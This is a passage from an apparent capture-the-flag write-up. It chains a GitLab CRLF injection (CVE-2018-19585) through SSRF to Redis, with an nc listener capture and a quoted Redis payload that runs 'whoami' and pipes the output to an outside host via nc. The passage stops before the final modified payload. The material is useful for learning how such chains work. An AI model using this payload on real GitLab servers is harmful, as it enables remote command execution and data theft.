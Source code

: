 ### CVE-2018-19585 - CRLF Injection

This vulnerability allows me to put newlines into the url, which results
in the connection to something like Redis to be a connection followed by
a series of independent commands. I'll look at this again with `nc`.
I'll import the url `git://10.10.14.8:80/test/.git` again, but this time
I'll intercept the request in Burp Proxy.

[![](/img/image-20210409215911004.png)*Click
for full size
![image*](/img/image-20210409215911004.png)

I'll edit the request to add lines in the middle of the url:

[![](/img/image-20210409215956169.png)*Click
for full size
![image*](/img/image-20210409215956169.png)

I'll send that, and at `nc` I see the result:



    oxdf@parrot$ nc -lnvp 80
    listening on [any] 80 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 43128
    0049git-upload-pack /test 
    line1 
    line2 
    line3 
    /.githost=10.10.14.8:80



If I sent this request to Redis, the first line would error, but then
lines 1-3 could be good commands that I want to execute.

### Combining It All

#### POC

[This HackerOne report](https://hackerone.com/reports/299473) shows how
to use GitLab Redis to get command execution by sending these commands:



     multi
     sadd resque:gitlab:queues system_hook_push
     lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
     exec



To put this all together, I'll delete my project and start a new import
with the URL `git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test/.git`, and
intercept it in Burp. I'll add in the additional Redis commands, making
sure to start each line with a space, and modifying his payload to send
the results of `whoami` back to my IP:
